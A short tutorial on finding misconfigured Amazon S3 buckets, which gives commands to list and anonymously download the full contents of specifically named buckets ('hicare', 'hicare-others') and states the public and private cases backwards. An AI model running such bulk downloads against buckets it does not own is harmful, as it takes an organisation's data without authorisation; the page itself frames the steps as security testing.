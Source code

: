 ```yaml
---
description: S3 Bucket on misconfiguration and exploitation.
---
```


# S3 Bucket Misconfiguration

Today we are going to check s3 bucket security:&#x20;

1. Install **aws-cli** and config aws credentials using the command:&#x20;

```bash
aws configure
```

2. Create a python script to list out the s3-buckets:&#x20;

```python
import boto3
s3 = boto3.resource('s3')
for bucket in s3.buckets.all():
        print(bucket.name)

```

You'll get list of aws s3 buckets on your aws account.

3. Now, try to check out the s3 buckets manually with the given link:&#x20;

```url
https://s3.ap-south-1.amazonaws.com/$s3-bucketname
```

* If the s3 bucket is not misconfiguration, it will display all data with documents on the page.&#x20;
* If the s3 bucket is configured, it will show access denied to third party.

4. List out all files in the s3 bucket:

```bash
aws s3 ls s3://hicare/ --no-sign-request --region ap-south-1
```

5. Download all s3 bucket files from s3 to localhost using awscli:

```bash
aws s3 sync s3://hicare-others/ ~/Documents/HiCare --no-sign-request --region ap-south-1

```

`The goal of this testing is to prevent/secure the aws s3 bucket from the attacker. This will lead to very critical situation to any company if org data became leaked.`
